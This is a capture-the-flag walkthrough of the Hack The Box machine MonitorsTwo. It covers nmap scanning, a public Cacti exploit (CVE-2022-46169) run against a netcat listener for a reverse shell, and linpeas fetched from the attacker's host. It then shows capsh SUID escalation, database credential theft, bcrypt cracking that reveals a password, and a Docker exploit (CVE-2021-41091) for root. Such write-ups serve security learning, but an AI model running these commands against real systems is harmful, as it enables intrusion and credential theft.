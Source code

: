 ### In this walkthrough, we will hack MonitorsTwo box from HTB
## Discovery
first of all we will test connection
```
ping 10.10.11.211
```
results:

![image](https://github.com/user-attachments/assets/d43f0f42-1f2f-428d-9881-04b5860d3f3e)

(ttl=63, around 63 tells us it is linux based machine, if ttl would be around 128 we would deal with windows based system)

Since we confirmed connection we can start enumerating with nmap command:
```
sudo nmap -sV -sC 10.10.11.211
```
flags:
- -sV - Service Version Detection
- -sC - Default Script Scan

results:

![image](https://github.com/user-attachments/assets/714e4d8a-f132-4baf-9f40-2edfad073b1e)

we can see that this box have two services open:
- ssh on port 22
- http on port 80

## Foothold

we dont have credentials to ssh for now and bruteforcing this is close to imposible, only one option is to see what is happening on http web server

![image](https://github.com/user-attachments/assets/2d8f33e6-e699-423f-a35d-89376f167405)

here i didnt even try deafult cacti credentials (wich work:admin, admin) just straight up started looking for CVE on internet and i found this github repo:
https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
```
git clone https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22.git
```

![image](https://github.com/user-attachments/assets/32af2039-c63f-4cf2-8a34-553974527357)

i adjusted command to my case according to readme file and started netcat listener, commands:
```
nc -lvnp 443
python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST=10.10.16.5 --LPORT=443
```
And just like that we got container shell! (we can see it is container becouse of hostname of the container after www-data@ which is random string)
## User.txt
next i moved to /tmp, installed linpeas and ran it, commands:
```
cd /tmp
wget http://10.10.16.6/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![image](https://github.com/user-attachments/assets/3682e7fc-0a81-4151-975d-e84238df1a33)

We can see that 95% PE vector is highlighted in yellow-red, we look capsh up in gtfobins and found this SUID (Set User ID) command:
```
./capsh --gid=0 --uid=0 --
```

![image](https://github.com/user-attachments/assets/201f86fe-6758-43d9-9794-795878624f16)

So we go to /sbin and execute command:

![image](https://github.com/user-attachments/assets/8fb046bc-26f6-48c4-92fc-5e78d42f3ad6)

After that, I looked around the system to find anything unusual or something that stood out. I found a strange file called entrypoint.sh, so I opened it.

![image](https://github.com/user-attachments/assets/d206d119-755c-4b54-b8c2-f080f4f572b3)

Inside, we found a pretty interesting command along with credentials. We checked the command, and it worked—we got access to the MySQL database. I looked through the tables and found one containing usernames and password hashes, which seemed interesting.

![image](https://github.com/user-attachments/assets/51b5e0eb-6944-4504-89cb-86c7a5b44009)

I looked on the internet to find out what type of hash it is, and it turned out that we have got bcrypt hashes, which is a pretty strong hashing standard. Hopefully, at least one password will be weak.
Fun fact: Passwords hashed with this standard were compromised from the Internet Archive not long ago, from when I’m writing this post.

Here’s a little trick to find out the Hashcat mode faster, you just need to use --help flag and pipe it with grep "type":

![image](https://github.com/user-attachments/assets/e848bfe1-f98c-4efb-9186-19cc2935d592)

We use mode 3200, write the results to cracked.txt, and use the wordlist rockyou.txt (HTB uses passwords from this wordlist to prevent unnecessary long hours of cracking hashes).

![image](https://github.com/user-attachments/assets/dee357fe-f05e-409e-ac65-2bc2607babb8)

Hashcat was able to crack only one hash, it was marcus password:
```
ssh marcus@monitorstwo.htb
Password: funkymonkey
```
We ssh to marcus using his password, succesfuly obtaining user flag:

![image](https://github.com/user-attachments/assets/4ed7a52c-7887-4615-9e1d-87b89d62edca)

## Root.txt
This stage took me the most time on this box, although it was kind of obvious i ran:
```
id
uname -a
sudo -l
cat .bash_history
ps aux | grep "root"
./linpeas.sh (looked through, this took some time)
```
And finally, I remembered that there is a Docker container running, and we can gain root access on it, so I checked the Docker version:
```
docker --version
```

![image](https://github.com/user-attachments/assets/ba4cbb23-bd74-443c-8e6a-8a14c184623c)

Looked that version up on internet for any CVE and found this git hub page (you can check that for more insights on this exploit):
https://github.com/UncleJ4ck/CVE-2021-41091

So i followed up steps provided by readme file:

![image](https://github.com/user-attachments/assets/e32fb60c-13ba-449d-8539-f3916f2455d3)

We need to obtain access to the Docker container again, leverage privileges to root, and pass this command. Then, say 'yes' in our SSH session.
```
chmod u+s /bin/bash
```

![image](https://github.com/user-attachments/assets/c23dfb03-3702-4d87-8e9b-f1a04a38a936)

I didn't get a shell right away, so I navigated to the provided path and executed the given command.
```
./bin/bash -p
```
And we got euid=0(root) which is equal to root priveleges!
## Conclusion
This box was really fun, it was simple but interesting i learned a bit about docker containers hope you also learned something, have good day and good luck on your next challenges!
